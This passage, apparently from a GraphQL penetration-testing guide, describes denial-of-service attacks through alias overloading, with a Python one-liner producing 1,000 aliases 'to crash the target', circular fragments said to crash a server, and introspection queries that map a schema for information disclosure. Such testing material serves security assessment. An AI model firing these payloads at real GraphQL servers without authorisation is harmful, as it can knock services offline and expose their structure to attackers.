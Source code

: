 GraphQL doesn’t like dealing with identical response keys and will generally complain if a query includes a given field name twice and you pass an argument with a different value for each.

The difference is that using aliases will sometimes be more efficient, especially if a field de-duplication middleware is implemented. Note that a specific query middleware is needed on the GraphQL server to detect the use of aliases.

This python one liner will generate a **list of 1000 aliases** for you to crash the target
```python
python3 -c 'for i in range(0, 1000): print("q"+str(i)+":"+"systemUpdate")'
```

### 5 - Circular fragment

Here we are creating two fragments on the `PasteObject` object style called `Start` and `End`, which call each other:

![image](https://flowhero.github.io/assets/images/shemas/2023_07_29_012710.png)

This will crash server instantly

on a real target that uses a properly designed GraphQL engine, **this attack should not work**. **But Test IT !!!!**


## V - Information Disclosure

```graphql
query {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
  }
}
```

or for more schema infos : 

```graphql
query {
  __schema {
    queryType { 
      name
      kind
      fields {
        name
      }
    }
    mutationType { 
      name
      kind
      fields {
        name
      } 
    }
    subscriptionType { 
      name
      kind
      fields {
        name
      }
    }
  }
}
```
